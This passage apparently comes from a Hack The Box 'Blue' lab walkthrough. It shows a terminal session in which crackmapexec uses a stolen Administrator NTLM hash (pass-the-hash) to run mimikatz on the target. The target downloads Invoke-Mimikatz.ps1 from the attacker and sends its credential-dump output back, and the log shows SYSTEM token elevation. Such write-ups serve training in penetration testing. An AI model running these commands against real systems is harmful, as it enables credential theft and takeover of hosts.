 Tunnel adapter Teredo Tunneling Pseudo-Interface:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : 

C:\Windows\system32>




root@kali:~/HTB/BLUE/AutoBlue-MS17-010# crackmapexec smb 10.10.10.40 -u 'Administrator' -H cdf51b162460b7d5bc898f493751a0cc -M mimikatz -o COMMAND="privilege::debug token::elevate sekurlsa::logonpasswords exit"
CME          10.10.10.40:445 HARIS-PC        [*] Windows 6.1 Build 7601 (name:HARIS-PC) (domain:HARIS-PC)
CME          10.10.10.40:445 HARIS-PC        [+] HARIS-PC\Administrator cdf51b162460b7d5bc898f493751a0cc (Pwn3d!)
MIMIKATZ     10.10.10.40:445 HARIS-PC        [+] Executed payload
MIMIKATZ                                       [*] Waiting on 1 host(s)
MIMIKATZ     10.10.10.40                       [*] - - "GET /Invoke-Mimikatz.ps1 HTTP/1.1" 200 -
MIMIKATZ                                       [*] Waiting on 1 host(s)
MIMIKATZ                                       [*] Waiting on 1 host(s)
MIMIKATZ                                       [*] Waiting on 1 host(s)
MIMIKATZ     10.10.10.40                       [*] - - "POST / HTTP/1.1" 200 -
MIMIKATZ     10.10.10.40                       [*] Saved Mimikatz's output to Mimikatz-10.10.10.40-2021-04-28_212350.log
[*] KTHXBYE!
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# 



root@kali:~/HTB/BLUE/AutoBlue-MS17-010# cat /root/.cme/logs/Mimikatz-10.10.10.40-2021-04-28_212350.log

  .#####.   mimikatz 2.1 (x64) built on Jun 28 2016 19:12:18
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 19 modules * * */

mimikatz(powershell) # privilege::debug
Privilege '20' OK

mimikatz(powershell) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

236	29290     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,30p)	Primary
 -> Impersonated !
 * Process Token : 773861    	haris-PC\Administrator	S-1-5-21-319597671-3711062392-2889596693-500	(11g,23p)	Primary
 * Thread Token  : 1085734   	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,30p)	Impersonation (Delegation)
